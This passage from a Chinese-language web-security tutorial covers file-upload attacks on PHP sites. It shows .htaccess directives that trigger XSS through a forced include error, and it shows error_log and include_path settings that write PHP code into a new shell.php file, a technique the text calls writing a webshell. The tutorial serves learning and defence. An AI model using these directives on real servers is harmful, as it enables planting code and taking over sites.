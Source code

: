 index.php 中的内容为：

```php
<?php
include('foo'); // 这里会报错
```

当访问index.php时便会触发 XSS：

![img](文件上传.assets/1681146121259-73110044-f86e-48aa-b705-14f8429b291f.png)

### 自定义错误文件（可写Webshell）

error_log 可以将 PHP 运行报错的记录写到指定文件中，因此我们可以通过 .htaccess 文件设定 error_log 选项来自定义错误文件的存储路径，并以此来写入Webshell：

```php
php_value error_log /var/www/html/shell.php
php_value include_path "<?php phpinfo(); __halt_compiler();"
# include_path 用来将include()的默认目录路径改变
```

index.php 中的内容为：

```php
<?php
include('foo'); // 这里会报错
```

访问 index.php，会报错并记录在 shell.php 文件中：
